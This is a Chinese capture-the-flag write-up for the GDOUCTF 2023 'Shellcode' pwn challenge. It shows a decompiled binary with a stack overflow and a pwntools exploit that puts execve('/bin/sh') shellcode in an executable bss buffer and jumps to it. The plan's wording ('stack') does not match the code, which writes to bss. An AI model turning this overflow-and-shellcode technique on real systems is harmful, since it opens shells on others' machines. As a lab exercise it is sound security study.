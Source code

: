 ```yaml
---
title: '[GDOUCTF 2023] Shellcode'
date: 2024-08-17 13:00:00 +0800
categories: [ret2shellcode,shellcode]
tags: [ctf,pwn]
---
```


```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[10]; // [rsp+6h] [rbp-Ah] BYREF

  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
  mprotect((&stdout & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7);
  puts("Please.");
  read(0, &name, 37uLL);                        // bss
  puts("Nice to meet you.");
  puts("Let's start!");
  read(0, buf, 0x40uLL);		//溢出点
  return 0;
}
```

程序逻辑:

1. 第一个`read()`接收数据并保存到位于`bss`段上的`name`
2. 第二个`read()`接受数据并保存到栈上`buf`变量

利用思路:

1. 利用第一个`read()`往栈上写入`shellcode`
2. 利用第二个`read()`溢出跳转到`&name`调用`shellcode`完成利用

exp:

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
io = gdb.debug('./ezshellcode')
name_addr = 0x6010a0
shellcode = '''
xor rdx,rdx;
push rdx;
mov rsi,rsp;
mov rax,0x68732f2f6e69622f;
push rax;
mov rdi,rsp;
mov rax,59;
syscall;
'''
io.sendlineafter(b'Please.',asm(shellcode))
io.sendlineafter(b'start!',b'A'*18+p64(name_addr))

io.interactive()
```

tips:

第一段输入的`shellcode`被限制在`32`字节之内,所以不能用`pwntools`自带的`shellcode`生成器,需要找一个更短的`shellcode`
